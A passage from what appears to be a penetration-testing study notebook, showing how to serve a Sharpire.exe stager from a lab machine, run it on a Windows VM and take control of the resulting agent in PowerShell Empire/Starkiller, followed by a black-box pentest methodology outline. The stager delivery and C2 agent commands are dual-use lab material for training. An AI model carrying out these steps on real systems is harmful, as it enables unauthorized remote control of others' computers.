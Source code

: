 * Actions - Download the `Sharpire.exe` stager

```bash
# Open a new terminal window
cd Downloads
python3 -m http.server 80

# On the Windows VM download the Sharpire.exe from http://192.168.42.132/
# Run it
```

<figure><img src="../../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

* Back on the Starkiller **Agents** page, check for the active agent

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-5210942bbc1c64b8c802cbb74afd0ade329272e5%252Fimage-20230424003448219.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=94c6c323&#x26;sv=1" alt=""><figcaption><p>Agents</p></figcaption></figure>

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-17d68fe9b29edca4b188f315e25d5a2e39c17acd%252Fimage-20230424003849568.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=d277b488&#x26;sv=1" alt=""><figcaption><p>File Browser</p></figcaption></figure>

* Back in the Empire terminal session

```bash
agents
interact <ID>
history
```

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-5a7c3603dee4d39763bb316782820f8fed844ab3%252Fimage-20230424004056233.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=9311a90&#x26;sv=1" alt=""><figcaption></figcaption></figure>

***

## Windows Black Box Exploitation <a href="#windows-black-box-exploitation" id="windows-black-box-exploitation"></a>

🗒️ **Black Box** penetration test - security assessment conducted without any internal system or network knowledge.

* The pentester act like an _external unprivileged hacker from outside the network_
* No information about the target system

Typical **Black Box Methodology**:

* Host discovery ➡️ Port Scanning ➡️ Enumeration
* Vulnerability detection
* Exploitation ➡️ Manual/Automated
* Post Exploitation - PrivEsc ➡️ Persistence ➡️ Dumping Hashes
